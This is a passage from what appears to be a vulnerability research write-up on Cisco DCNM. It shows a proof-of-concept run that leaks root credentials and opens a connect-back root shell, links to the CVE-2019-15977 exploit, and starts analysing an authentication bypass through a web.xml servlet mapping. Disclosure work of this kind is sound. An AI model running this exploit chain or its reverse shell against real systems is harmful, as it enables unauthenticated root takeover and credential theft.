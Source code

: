 Chaining everything together, we can achieve unauthenticated remote code execution as root!

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.123 192.168.100.59
(+) eg: ./poc.py 192.168.100.123 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.123 192.168.100.59:1337
(+) leaked user: root
(+) leaked pass: Dcnmpass123
(+) leaked vfs path: temp18206a94b7c45072/content-85ba056e1faec012
(+) created a root session!
(+) starting handler on port 1337
(+) connection from 192.168.100.123
(+) pop thy shell!
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost 3.10.0-957.10.1.el7.x86_64 #1 SMP Mon Mar 18 15:06:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

You can [download](/pocs/cve-2019-15977.py.txt) the exploit and test it for yourself.
[ret2toc](#table-of-contents)

## RCE Chain 3

Vulnerable Targets:
- Installer for Windows (dcnm-installer-x64-windows.11.2.1.exe.zip)

### TrustedClientTokenValidator Authentication Bypass Vulnerability

Inside of the Fabric Manager (FM) web application directory, we can find the `web.xml` that contains the servlet mappings for the application.

```xml
<servlet>
    <servlet-name>restEasyServlet</servlet-name>
    <servlet-class>org.jboss.resteasy.plugins.server.servlet.HttpServletDispatcher</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>restEasyServlet</servlet-name>
    <url-pattern>/fmrest/*</url-pattern>
</servlet-mapping> 

<context-param>
    <param-name>resteasy.providers</param-name>
    <param-value>com.cisco.dcbu.web.client.rest.RestSecurityInterceptor</param-value>
</context-param>
```
